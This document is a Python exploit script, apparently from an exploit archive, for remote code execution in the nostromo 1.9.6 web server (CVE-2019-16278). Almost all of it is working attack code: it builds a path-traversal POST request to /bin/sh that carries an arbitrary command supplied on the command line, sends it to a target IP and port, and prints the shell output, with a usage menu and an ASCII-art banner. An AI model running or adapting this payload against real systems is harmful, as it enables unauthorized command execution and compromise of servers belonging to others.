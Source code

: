 EXP
---

    # Exploit Title: nostromo 1.9.6 - Remote Code Execution
    # Date: 2019-12-31
    # Exploit Author: Kr0ff
    # Vendor Homepage:
    # Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
    # Version: 1.9.6
    # Tested on: Debian
    # CVE : CVE-2019-16278

    cve2019_16278.py

    #!/usr/bin/env python

    import sys
    import socket

    art = """

                                            _____-2019-16278
            _____  _______    ______   _____\    \
       _____\    _\      |  |      | /    / |    |
      /     /|     ||     /  /     /|/    /  /___/|
     /     / /____/||\    \  \    |/|    |__ |___|/
    |     | |____|/ \ \    \ |    | |       \
    |     |  _____   \|     \|    | |     __/ __
    |\     \|\    \   |\         /| |\    \  /  \
    | _____\|    |   | _______/ | | ____\/    |
    | |     /____/|    \ |     | /  | |    |____/|
     \|_____|    ||     \|_____|/    \|____|   | |
            |____|/                        |___|/



    """

    help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

    def connect(soc):
        response = ""
        try:
            while True:
                connection = soc.recv(1024)
                if len(connection) == 0:
                    break
                response += connection
        except:
            pass
        return response

    def cve(target, port, cmd):
        soc = socket.socket()
        soc.connect((target, int(port)))
        payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
        soc.send(payload)
        receive = connect(soc)
        print(receive)

    if __name__ == "__main__":

        print(art)

        try:
            target = sys.argv[1]
            port = sys.argv[2]
            cmd = sys.argv[3]

            cve(target, port, cmd)

        except IndexError:
            print(help_menu)